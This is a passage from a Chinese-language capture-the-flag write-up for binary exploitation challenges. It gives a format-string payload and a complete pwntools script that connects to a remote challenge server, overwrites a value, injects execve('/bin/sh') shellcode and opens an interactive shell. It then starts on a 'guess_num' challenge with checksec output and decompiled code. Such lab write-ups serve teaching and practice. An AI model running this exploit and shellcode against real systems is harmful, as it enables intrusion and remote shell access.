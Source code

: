 ```python
payload="%085d"+"%7$n"
```

### Exp

```python
#coding=utf-8
from pwn import *
payload="%85d"+"%7$n"
shellcode="\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05"
io=remote("111.198.29.45","52943")
io.recvuntil("secret[0] is ")
v3_addr=io.recvuntil("\n")
v3_address=eval("0x"+v3_addr[:-1])
io.sendlineafter("What should your character's name be:","eki")
io.sendlineafter("So, where you will go?east or up?:","east")
io.sendlineafter("go into there(1), or leave(0)?:","1")
io.sendlineafter("'Give me an address'",str(v3_address))
#io.sendlineafter("And, you wish is:",'A'*8+'-%p'*10)
io.sendlineafter("And, you wish is:",payload)
io.recvuntil("Wizard: I will help you! USE YOU SPELL")
io.send(shellcode)
io.interactive()
```

> 可以在shell-storm上找到对应架构和系统的shellcode 
>
> 也可使用pwntool自带的生成工具asm(shellcraft.sh())生成
>
> 需要指定 context(arch='amd64', os='linux')

注意v2本身是个以int存的地址所以不需要用p64进行地址转换

## 0x08 guess_num

Checksec:

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```
核心代码如下
```cpp
  gets(&v9);
  v4 = (const char *)seed[0];
  srand(seed[0]);
  for ( i = 0; i <= 9; ++i )
  {
    v8 = rand() % 6 + 1;
    printf("-------------Turn:%d-------------\n", (unsigned int)(i + 1));
    printf("Please input your guess number:");
    __isoc99_scanf("%d", &v6);
    puts("---------------------------------");
    if ( v6 != v8 )
    {
      puts("GG!");
      exit(1);
    }
    v4 = "Success!";
    puts("Success!");
  }
```